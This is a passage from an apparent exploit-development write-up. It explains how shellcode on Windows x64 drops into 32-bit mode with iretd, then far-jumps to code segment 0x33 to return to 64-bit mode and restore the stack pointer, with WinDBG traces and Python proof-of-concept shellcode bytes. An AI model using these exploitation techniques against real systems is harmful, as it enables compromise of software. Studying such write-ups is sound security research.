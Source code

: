 Debugging the new PoC shows that we indeed end up in 32-bit mode inside our shellcode and can execute it!

```
0:000> 
00000000`10000f0f cf              iretd
0:000> dd rsp
00000000`00cfede0  10000014 00000023 00010202 10000400
00000000`00cfedf0  00000053 41414141 41414141 41414141
0:000> g
10000014 cc              int     3
0:000:x86> p
10000015 90              nop
0:000:x86> p
10000016 90              nop
```

Any attempt to use the stack will however fail (Note that WinDBG will automatically repair 0x53 back to 0x2b if you are single stepping – this can be confusing!). This means we will need to find a way to use the ability to execute shellcode to restore either stack functionality or get back to 64-bit.

As it turns out there is exactly such a [thing](https://stackoverflow.com/questions/39310831/implement-x86-to-x64-assembly-code-switch). By using a far jump like this `0x33:0x100000xx` we can specify 0x33 as the new code segment which will get us back to 64-bit. Since 64-bit does not need a stack segment selector we can now use the stack again! The only thing left to do (besides generating valid shellcode) is to restore the stack pointer. Luckily debugging shows that RCX still holds a reference to the stack so we can just copy it into RSP. After executing the jump into 64-bit mode we can now continue to execute 64-bit shellcode to restore the stack and then anything we like:

**PoC\_0x03**

```python
...
sc =  b""
sc += b"\xcc"
sc += b"\xea\x1c\x00\x00\x10\x33\x00" # from 0x10000014 0x1000001c
sc += b"\x48\x89\xC8\x48\x89\xC4" # restore original stack from ref in rcx
sc += b"\xcc"
...
```

Note that even though 0x33 is a bad byte this is only true for the stack – on the heap where the shellcode lies it will be unchanged. Debugging shows the swap back to 64-bit:

```
10000014 cc                      int     3
0:000:x86> p
10000015 ea1c0000103300          jmp     0033:1000001C
0:000:x86> p
00000000`1000001c 4889c8          mov     rax,rcx
0:000> p
00000000`1000001f 4889c4          mov     rsp,rax
0:000> 
00000000`10000022 cc              int     3
```
